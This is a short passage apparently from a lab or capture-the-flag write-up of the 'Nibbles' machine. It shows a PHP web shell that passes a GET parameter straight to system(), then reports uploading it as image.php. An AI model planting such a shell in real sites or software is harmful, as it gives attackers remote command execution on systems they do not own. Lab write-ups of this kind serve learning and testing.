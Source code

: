 This will be our payload.

```php
<?php
        $cmd = system($_GET['fc8358bcf09e4b3947d1975622a9df14']);
        echo "<pre>" . $cmd . "</pre>";
?>
```

We got some warnings but nothing else.

<img src="/assets/img/nibbles/Untitled 10.png" alt="Untitled 10.png" style="width:800px;">

The image.php file has been uploaded.

<img src="/assets/img/nibbles/Untitled 11.png" alt="Untitled 11.png" style="width:800px;">

